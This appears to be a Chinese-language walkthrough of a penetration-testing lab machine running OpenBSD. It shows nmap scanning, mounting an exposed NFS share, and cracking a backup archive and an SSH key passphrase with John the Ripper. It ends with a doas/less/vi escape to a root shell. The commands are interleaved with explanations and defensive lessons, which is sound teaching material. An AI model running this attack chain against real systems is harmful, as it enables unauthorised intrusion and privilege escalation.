（只根据回忆）

通过nmap扫描得到端口信息，看到111端口和2049端口开放和mount（挂载）有关，优先考虑挂载，得到共享目录中的文件后又得到了公钥私钥文件，通过ssh登录到普通用户，最后通过搜集信息，得知设置了suid位的文件，其中在nmap的信息中知道靶机的操作系统是OpenBSD 6.0-6.4版本，其中的doas类似于root权限，通过查看/etc/doas.conf得知可以以root权限使用less，进入文件后按v进入vim编辑器，再输入:!sh就得到root权限了

## 扫描

```
nmap -sn 192.168.174.0.24
```

确定靶机ip为192.168.174.133

```
nmap -sS -sC -sV -O --min-rate 10000 -p- -oA /nmapscan/ports 192.168.174.133
```

```
nmap -sU --top-ports 40 192.168.174.133
```

最好UDP和TCP都要进行扫描，有时候扫的不一样



## 分析

111端口是rpcbind

- **rpcbind (端口映射器):** 监听在 111 端口，启动时注册 RPC 服务，并为 NFS 的相关子进程（如 `mountd`, `nfsd`）提供随机端口的记录服务。

2048端口是nfs

- **NFS (服务实现):** 当 NFS 服务启动时，它会将自己注册到 rpcbind。当客户端连接时，它先联系 rpcbind，获得 NFS 端口，再进行文件传输。

  ------

  

- **必需的依赖：** 无论服务端还是客户端，在使用 NFS 服务时都必须启动 rpcbind。
- **安全风险：** 由于 rpcbind 机制较薄弱且使用 111 端口，建议在生产环境中通过防火墙规则限制对其 111 端口的访问。
- **工作机制：** rpcbind 需在所有 RPC 管理的服务启动之前运行。

因此，NFS 的正常挂载和文件共享依赖于 rpcbind 提供的端口映射机制。

------

- 860端口（TCP）主要用于 iSCSI (Internet Small Computer Systems Interface) 服务，即 Internet 小型计算机系统接口，用于在网络上映射存储设备。它允许通过 TCP/IP 网络传输 SCSI 命令，实现存储局域网（SAN）的访问。

------

所以优先考虑nfs

## 实施攻击

```
showmount -e 192.168.174.133
```



查看靶机的挂载目录

```
mkdir /mnt/target
```

```
mount -t nfs 192.168.174.133:/home/user/storage /mnt/target
```



```
7z x /mnt/target/backup.7z -o/exam/1
```

解压发现有密码，因为是7z压缩包，所以

```
7z2john /mnt/target/backup.7z > hash.txt
```

将压缩包地哈希值提取出来

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

爆破哈希值密码

```
john --show hash.txt
```



得到密码后

```
7z x /mnt/target/backup.7z -o/exam/1
```



从图片中没有得到什么关键信息，那就看剩下那两个，一个是公钥，一个是私钥



从两个文件可以知道，用户名是user

```
chmod 600 id_rasa
```

当ssh需要私钥时，要将权限这样设置（仅文件所有者可读写）

```
ssh2john id_rsa > hash_rsa
```

- **原理**：`ssh2john` 提取出 PEM 格式私钥中的加密块，包含加密算法（通常是 AES-128-CBC）、盐值（如果存在）和加密后的密钥材料，转换成 John 格式。

用于字典爆破，得到passphrase(密码短语)



登录账号



```
find / -perm -u=s -type f 2>/dev/null
```

- **原理**：`suid`（Set User ID）是 Unix 权限机制。一个可执行文件如果设置了 `suid` 位，那么无论谁执行它，该**进程的有效用户 ID** 都会变成文件所有者（通常是 root）。这是用户临时获得更高权限执行特定任务的合法方式。
- **为什么找它**：错误配置的 `suid` 程序是 Linux/Unix 提权的最常见入口。比如若 `find` 本身带有 `suid`，就可通过 `-exec` 以 root 身份执行命令。但这次我们发现的是 `/usr/bin/doas`。
- **`2>/dev/null` 的原因**：避免“权限拒绝”的错误信息淹没终端。



- **原理**：`doas` 是 OpenBSD 上的 `sudo` 替代品，更简洁安全。它的配置文件决定了哪些用户能以什么身份运行什么命令。
- **我们看到的内容**：`permit nopass user as root cmd /usr/bin/less args /var/log/authlog`
  这行配置的含义是：允许用户 `user`，不需要密码，以 root 身份运行 `/usr/bin/less` 这个命令，且只限于查看 `/var/log/authlog` 文件。
- **为什么这是漏洞**：虽然意图是让用户 `user` 只看日志，但 `less` 具备**调用外部编辑器**的功能（按 `v` 键进入 vi）。在 vi 中又可以执行 shell 命令（`:!command`）。这个 shell 将**继承** `doas` 赋予的 root 权限。
- **这种手法叫“GTFOBins”利用**：很多看似无害的 Unix 工具（less, vi, more, awk 等）在特定场景下都可以被滥用来提权。

```
cat /etc/doas.conf
```

`doas` 的配置文件，定义了哪些用户能以什么权限执行什么命令。



### 漏洞利用步骤

1. `doas /usr/bin/less /var/log/authlog`
   以 root 权限打开 less，此时进程的有效 UID 是 0。

2. 在 less 中按下 `v`
   `less` 的设计允许你按 `v` 用默认编辑器（通常是 `vi`）打开当前查看的文件。这个 `vi` 进程由 `less` 进程 fork 出来，因此也继承了 root 权限。

3. 在 vi 命令模式下输入 `:!sh`
   `:!` 是 vi 执行外部命令的语法。它启动一个子 shell。由于父进程 vi 是 root 权限，这个子 shell 自然也是 root。

4. 得到 root shell。

   ```
   doas /usr/bin/less /var/log/authlog
   ```

   

   成功提权，拿到flag

------

## 攻击链的整体思考：为什么是这样一条路？

- 从 **UDP 扫描** 发现 NFS → 因为常规 TCP 扫描会漏掉。
- 从 **NFS 共享** 发现备份文件 → NFS 常因配置疏漏导致敏感文件泄露。
- **破解密码** 是迫不得已的手段，但用户弱密码使其成功 → 证明“技术防护的强度取决于最弱密码”。
- **SSH 私钥** 登录比密码更隐蔽，不易触发登录告警。
- **`doas` 配置缺陷** 是 OpenBSD 环境中典型的“最小权限原则”违反案例：赋予了一个表面上无害但功能强大的工具（`less`），攻击者利用其特性逃逸出受限环境。

每一个步骤都不是随机尝试，而是**基于上一步获取的线索，有目的地选择最可能的攻击路径**，这就是渗透测试中的“鱼叉式思路”而非“扫射式”。

